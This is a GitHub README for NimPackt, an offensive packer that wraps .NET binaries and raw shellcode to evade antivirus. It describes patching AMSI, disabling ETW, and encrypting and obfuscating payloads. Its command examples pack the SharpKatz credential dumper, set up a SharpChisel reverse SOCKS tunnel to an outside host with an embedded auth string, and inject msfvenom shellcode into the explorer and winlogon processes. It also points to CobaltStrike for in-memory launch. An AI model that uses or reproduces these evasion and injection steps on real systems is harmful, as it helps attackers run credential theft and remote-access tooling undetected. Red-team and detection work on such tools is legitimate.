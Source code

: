 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables and raw shellcode

## Description

> ⚠ NimPackt is still under active development and will contain bugs/oversights/flaws. Though generated binaries should be OpSec-safe, please verify this yourself before deploying them in active engagements. Kthx.

NimPackt is a Nim-based packer for C# / .NET executables and raw shellcode. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect or reverse engineer. Currently, it has the following features.

- Patching the Anti-Malware Scan Interface (AMSI)
- Disabling Event Tracing for Windows (ETW)
- Payload encryption (AES-128 CTR) to prevent static analysis
- Obfuscating static strings used in the binary
- Supports cross-platform compilation (from both Linux and Windows)
- Supports both x64/x86 compilation (make sure to grab the right architecture for the ingested binary)

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. Even though embedded binaries are encrypted, you should obfuscate sensitive binaries (such as Mimikatz) to lower the risk of detection.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to remove userland hooks (until Project5 is supported) or even launch it from memory using CobaltStrike, though this is a bit beyond the purpose of NimPackt 😙

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages and Python libraries.

```
sudo apt install -y python3 mingw-w64 nim
pip3 install pycryptodome argparse
nimble install winim strenc nimcrypto
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility. If you don't have Python3 install that, then install the required packages as follows.

```
nimble install winim strenc nimcrypto
pip3 install pycryptodome argparse
```

## Usage

```
usage: NimPackt.py [-h] -e EXECUTIONMODE -i INPUTFILE [-a [ARGUMENTS]] [-r] [-t INJECTTARGET] [-E] [-32] [-H] [-na] [-ne] [-v] [-V]

required arguments:
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-assembly" or "shinject"
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable (.exe) or shellcode (.bin) to wrap

execute-assembly arguments:
  -a [ARGUMENTS], --arguments [ARGUMENTS]
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-time arguments (default)

shinject arguments:
  -r, --remote          Inject shellcode into remote process (default false)
  -t INJECTTARGET, --target INJECTTARGET
                        Remote thread targeted for remote process injection (default "explorer.exe", implies -r)
  -E, --existing        Remote inject into existing process rather than a newly spawned one (default false, implies -r) (WARNING: VOLATILE)

other arguments:
  -32, --32bit          Compile in 32-bit mode
  -H, --hideapp         Hide the app frontend (console output) by compiling it in GUI mode
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW)
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```
# Pack SharpKatz to accept commands at runtime, patch AMSI and disable ETW while printing verbose messages on runtime
python3 ./NimPackt.py -v -e execute-assembly -i bins/SharpKatz-x64.exe

# Pack SharpChisel with a built-in ChiselChief connection string, do not patch AMSI or disable ETW, hide the application window on runtime
python3 NimPackt.py -H -e execute-assembly -i bins/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'

# Pack raw shellcode to execute in the local thread, hiding the Nim binary window
# Shellcode generated with 'msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /tmp/calc.bin'
python3 NimPackt.py -i calc.bin -e shinject -H

# Pack raw shellcode to execute in a newly spawned Explorer thread, enabling log messages in the compiled Nim binary
python3 NimPackt.py -r -i calc.bin -e shinject 

# Pack raw shellcode to execute in the existing Winlogon process
python3 NimPackt.py -r -E -i calc.bin -e shinject 
```

## Known issues

- The `-H` flag doesn't seem to properly hide the output of the executed assembly when `execute-assembly` mode is used. This probably relates to C# compiling options, need to investigate this further.
- Shellcode doesn't seem to return correctly over all injection methods. This is not a problem for local injection (since the Nim thread can die anyway), but for remote injections it will cause the process to crash in most instances. For a sacrificial process this might be okay, but for existing processes (-E) this is not acceptable. Need to look into making shellcode properly return.

## Wishlist

- Provide option to deploy `Project5` to unhook API calls before execution
- Provide option to pack as dll library
- A CobaltStrike plugin 🤗